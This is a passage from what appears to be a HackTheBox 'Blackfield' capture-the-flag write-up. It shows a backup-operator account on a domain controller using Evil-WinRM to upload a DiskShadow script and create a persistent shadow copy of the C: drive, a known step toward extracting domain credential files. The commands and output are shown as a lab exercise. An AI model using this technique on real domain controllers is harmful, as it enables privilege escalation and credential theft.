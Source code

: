 ```
```

however, ofcourse that would be too easy. I tried reading the root.txt file on the Admin Desktop but it came back blank
```
BLACKFIELD\svc_backup> cd C:\Users\Administrator\Desktop
BLACKFIELD\svc_backup> ls
    Directory: C:\Users\Administrator\Desktop
Mode                LastWriteTime         Length Name                              
----                -------------         ------ ----                              
-a----        2/28/2020   4:36 PM            447 notes.txt                         
-a----        11/5/2020   8:38 PM             32 root.txt                                          
BLACKFIELD\svc_backup> more root.txt


BLACKFIELD\svc_backup> 

```

Because this is a backup account - I found out from [DiskShadow – Penetration Testing Lab (pentestlab.blog)](https://pentestlab.blog/tag/diskshadow/) that you can create custom scripts for disk shadow so I attempted to clone the C drive to another Drive letter
```
*Evil-WinRM* PS C:\Windows\System32> cd C:\programdata
*Evil-WinRM* PS C:\programdata> upload ../Scripts/disk.dsh
                                        
Info: Uploading /home/kali/Desktop/HackTheBox/Boxes/NonComp/Hard/Blackfield/Loot/../Scripts/disk.dsh to C:\programdata\disk.dsh
                                        
Data: 108 bytes of 108 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\programdata> cd C:\Windows\System32
*Evil-WinRM* PS C:\Windows\System32> diskshadow /s C:\programdata\disk.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  5/18/2024 9:32:10 PM

-> set context persistent nowriters
-> set metadata c:\programdata\df.cab
-> set verbose on
-> add volume c: alias df
-> create

Alias df for shadow ID {1511be1a-1459-4f79-8aaf-97c51240d1d2} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {da2834c8-12c1-4a8e-9aed-f2dc7cb3634b} set as environment variable.
Inserted file Manifest.xml into .cab file df.cab
Inserted file DisDBF2.tmp into .cab file df.cab

Querying all shadow copies with the shadow copy set ID {da2834c8-12c1-4a8e-9aed-f2dc7cb3634b}

        * Shadow copy ID = {1511be1a-1459-4f79-8aaf-97c51240d1d2}               %df%
                - Shadow copy set: {da2834c8-12c1-4a8e-9aed-f2dc7cb3634b}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 5/18/2024 9:32:11 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

```